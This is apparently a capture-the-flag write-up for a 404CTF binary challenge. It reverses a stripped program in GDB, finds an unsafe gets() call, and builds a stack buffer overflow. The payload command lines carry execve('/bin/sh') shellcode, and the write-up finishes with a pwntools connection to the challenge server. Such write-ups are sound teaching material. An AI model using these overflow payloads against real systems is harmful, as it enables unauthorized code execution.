Looking at the strings, "gets" is present and might indicate a potential vulnerability.

List the functions used by the program.

Notice that we don’t find the main function here, and when we are trying to disassemble the main function, gdb couldn’t find the function.


In this case, we are facing a stripped binary. A stripped binary is a program that is compiled with a strip flag that tells the compiler to discard these debugging symbols and compile the program as it is. Stripping the binary reduces its size on the disk and makes it more difficult to debug and reverse engineer.

Visualizing with GDB
Entry Point is 0x400520. Set a breakpoint at this place and run the program.

Lib_start_main is found in the position 0x400544. Libc_start_main is the function that initializes the process and call the main function with the appropriate parameters.
The main function is not the entrypoint of a program.
Before calling the function libc_start_main, the assembly set value on RDI, RCX, R8
The first parameter of libc_start_main is int (*main). The register RDI correspond to the first parameter of the called function. Therefore I conclude that the function address of the function main is 0x400607.
Let’s set a breakpoint at this address. And continue.

Now we have our main function with the functions that we have found previously “setvbuf, puts…”. Let’s set a breakpoint before gets() and after gets() to see the change in the stack. We know that the function gets() does not control the user input, which lead to a vulnerability in the program.

Notice that when we continue on the stack, the beginning of the stack frame is given by the program.
Cadeau : 0x7fffffffffffe200
Cadeau : RSP
Size of stackframe : 0x40060b sub rsp, 0x40 => 40 bytes
Offset = 64 + 8 (leave instruction in x64) = 72
Since the program gives us the address of the RSP, we might overwrite the buffer since it is using the function gets() and return to the RSP address to perform a return to stack attack.
r < <(python -c "import sys; sys.stdout.buffer.write(b'A'*72 + b'\x00\xe2\xff\xff\xff\x7f')")


After the ret instruction, the program returns to the stack address, and execute the content inside of it. In our case, we set it as “AAA…AAA” which cause a segmentation fault. Let’s put a shellcode on it. Let’s find a shellcode that do execve(“/bin/sh”),
Shell Storm is a great shellcode database. It is also possible to generate a shellcode with metasploit as well.
r < <(python -c "import sys; sys.stdout.buffer.write(b' \x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'+ b’A’*(72-23) + b'\x00\xe2\xff\xff\xff\x7f')")

Shellcode has been executed, and a shell is open.
Scripting
Let's put what we've learnt in GDB to a python script. The script is made easier with the pwntool library.


Since we manage to do it in local, let's do it remotely. In the script, instead of pointing to a process, let's use the function remote of the pwn library to open a connection to a server.
remote("challenge.404ctf.fr", "31720")
